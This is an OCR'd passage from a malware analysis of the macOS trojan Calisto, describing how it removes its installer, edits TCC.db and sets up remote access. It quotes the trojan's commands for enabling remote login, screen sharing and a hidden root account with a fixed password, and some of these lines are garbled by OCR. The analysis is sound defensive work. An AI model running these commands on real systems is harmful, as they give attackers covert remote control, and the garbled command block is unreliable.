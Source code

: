 The DMG image is unmounted and uninstalled via the following command:

```
' | sudo -S diskutil unmount /Volumes/Mac\ Internet\ Security\ X9
                     ; DATA XREF: sub 10000A400+873↑o
                     ; sub 10000A400:loc 10000ACAFto
'&& rm -rf ~/Downloads/Intego_v9.0.3_websetup.dmg',0
```
To extend its capabilities, Calisto adds itself to Accessibility by directly modifying the TCC.db file, which is bad practice and an indicator of malicious activity for the antivirus. On the other hand, this method does not require user interaction.

|  |  | :::: | Security & Privacy | Q Search |
| --- | --- | --- | --- | --- |
|  |  | General | FileVault Firewall Privacy |  |
|  | 7 Location Services |  | Allow the apps below to control your computer. |  |
|  | Contacts |  | V launchb.app |  |
|  | Calendars |  |  |  |
|  | Reminders |  |  |  |
| launchb.app | Photos |  |  |  |
|  | Accessibility |  |  |  |
|  | Analytics :46 |  |  |  |

An important feature of Calisto is getting remote access to the user system. To provide this, it:

Enables remote login

Enables screen sharing

Configures remote login permissions for the user

Allows remote login to all

Enables a hidden "root" account in macOS and sets the password specified in the Trojan code

The commands used for this are:

/RemoteManagement/ARDAgent.app/Contents/Resources/kickstart -activate /bin/launchctl list com.apple.screensharing 2>/dev/null localonly -create /Local/Target/Users/oleq naprivs /usr/bin/dscl ' / var/db/ds local/nodes/Default' /usr/bin/defaults write /Library/Preferences/com.apple.RemoteManagement ARD_AllLocalUsers -boolean YBS /usr/bin/defaults write /Library/Preferences/com.apple.RemoteManagement ARD_AllLocalUsersPrivs -integer 1073742079 -p infected -r aGNOStIC7890 !!! -setcomputersleep Never

Note that although the user "root" exists in macOS, it is disabled by default. Interestingly, after a reboot, Calisto again requests user data, but this time waits for the input of the actual root password, which it previously changed itself (root: aGNOStIC7890!!!). This is one indication of the Trojan's rawness.

```
~$ dsenableroot -p infected -r aGNOStIC7890
username = oleg
dsenableroot :: ***Successfully enabled root user.
~$ su
Password:
sh-3.2#
```
At the end, Calisto attempts to transfer all data from the .calisto folder to the cybercriminals' server. But at the time of our research, the server was no longer responding to requests and seemed to be disabled:
